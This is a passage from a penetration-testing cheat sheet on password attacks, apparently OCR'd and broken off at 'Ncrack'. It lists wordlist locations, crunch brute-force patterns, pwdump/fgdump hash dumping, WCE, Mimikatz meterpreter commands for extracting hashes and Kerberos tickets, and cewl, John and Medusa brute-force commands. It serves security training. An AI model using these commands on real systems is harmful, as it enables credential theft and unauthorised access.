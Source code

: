     -   Dictionary Files

        -   Word lists on Kali  
            cd /usr/share/wordlists

    -   Key-space Brute Force

        -   crunch 6 6 0123456789ABCDEF -o crunch1.txt

        -   crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha

        -   crunch 8 8 -t ,@@^^%%%

    -   Pwdump and Fgdump - Security Accounts Manager (SAM)

        -   pwdump.exe - attempts to extract password hashes

        -   fgdump.exe - attempts to kill local antiviruses before
            attempting to dump the password hashes and
            cached credentials.

    -   Windows Credential Editor (WCE)

        -   allows one to perform several attacks to obtain clear text
            passwords and hashes

        -   wce -w

    -   Mimikatz

        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets  
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            `meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords`

    -   Password Profiling

        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack
